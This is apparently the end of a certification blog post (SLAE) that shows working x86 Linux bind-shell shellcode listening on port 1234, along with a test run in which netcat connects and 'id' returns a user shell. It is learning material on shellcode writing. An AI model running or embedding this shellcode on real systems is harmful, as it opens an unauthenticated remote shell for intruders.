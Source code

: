 ### Test ###

```c
python bind_final.py --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
```

We compile again as in the previous example then we test everything.

```c
./test_shellcode
tcp        0      0 0.0.0.0:1234            0.0.0.0:* LISTEN      2678/test_shellcode

nc localhost -p 1234 
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763